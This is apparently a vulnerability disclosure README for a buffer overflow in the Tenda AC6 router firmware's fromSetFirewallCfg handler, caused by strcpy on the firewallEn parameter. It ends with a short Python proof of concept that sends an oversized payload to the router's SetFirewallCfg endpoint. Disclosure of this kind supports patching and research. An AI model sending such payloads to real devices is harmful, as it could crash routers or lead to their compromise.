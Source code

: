 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/14.png)

get value from firewallEn, then call strcpy, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/SetFirewallCfg"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
